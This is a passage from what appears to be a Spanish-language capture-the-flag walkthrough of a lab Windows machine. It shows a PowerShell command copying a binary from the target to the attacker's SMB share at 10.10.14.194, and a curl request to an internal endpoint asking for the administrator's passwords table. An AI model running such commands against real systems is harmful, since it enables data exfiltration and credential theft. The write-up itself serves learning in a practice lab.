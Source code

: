 Si lo esta...

Intentemos pasarnos el binario a nuestra máquina, a ver si logramos ejecutarlo.

Nos compartimos una carpeta con `SMB`, la llamaré `smbFolder`:

```bash
❭ python3 smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Y ahora en la máquina Windows, le indicamos que nos copie ese binario a través de una carpeta compartida en la red:

```powershell
PS C:\Development> copy .\Krypter_Linux \\10.10.14.194\smbFolder\Krypter_Linux
```

Recibimos info en nuestro servidor de la conexión entrante y ya tendríamos el binario:

```bash
❭ file Krypter_Linux 
Krypter_Linux: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ab1fa8d6929805501e1793c8b4ddec5c127c6a12, for GNU/Linux 3.2.0, not stripped
```

```bash
❭ ./Krypter_Linux 
Krypter V1.2

New project by Juliette.
New features added weekly!
What to expect next update:
        - Windows version with GUI support
        - Get password from cloud and AUTOMATICALLY decrypt!
***

No key supplied.
USAGE:

Krypter <key>
```

...

Podemos apoyarnos de `cURL` e intentar visitar el recurso al cual se esta llamando en el binario:

```powershell
PS C:\Development> curl "http://passmanager.htb:1234/index.php?method=select&username=administrator&table=passwords"
curl : The remote name could not be resolved: 'passmanager.htb'
...
```
